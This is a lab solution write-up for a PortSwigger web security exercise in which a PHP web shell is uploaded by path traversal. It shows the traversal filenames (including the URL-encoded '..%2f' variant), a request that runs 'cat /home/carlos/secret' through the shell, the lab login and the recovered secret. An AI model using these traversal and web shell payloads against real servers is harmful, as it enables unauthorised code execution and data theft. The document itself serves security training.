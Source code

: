 [Source](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal)
## Task
This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed using a secondary vulnerability.

To solve this task, download a basic PHP web shell and use it to retrieve the contents of the file `/home/carlos/secret`. Submit this secret using the button indicated on the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`.
## Solution
Go to the site and log in to your account. We see that there is an option to upload an image.
Upload any image. In `Burp Suite`, go to `HTTP history`, click on filters and check the `Images` box. In the request history we find a `GET` request with our image. We send it to `Repeater`.

![image](images/20250627185530.png)


![image](images/20250627181933.png)

Now let's try to upload a PHP file and send this request to `Repeater`:

![image](images/20250627204604.png)

We need to upload the file to another directory. To do this, change `filename`:
```Request
filename="../command-exploit.php"
```

![image](images/20250627204720.png)

>The file avatars/command-exploit.php has been uploaded.

The path to the file has not changed. Let's try replacing `/` with `%2f`:
```Request
filename="..%2fcommand-exploit.php"
```

![image](images/20250627204454.png)

>The file avatars/../command-exploit.php has been uploaded.

Let's move on to the request that loads the image onto the page. In the first line of the request we add:
```URL
/files/../command-exploit.php?command=cat+/home/carlos/secret
```

![image](images/20250627204256.png)

```Secret
MGdeRpZKAYcNDNiixmDMGOTJrpDblXHZ
```

![image](images/20250627204913.png)
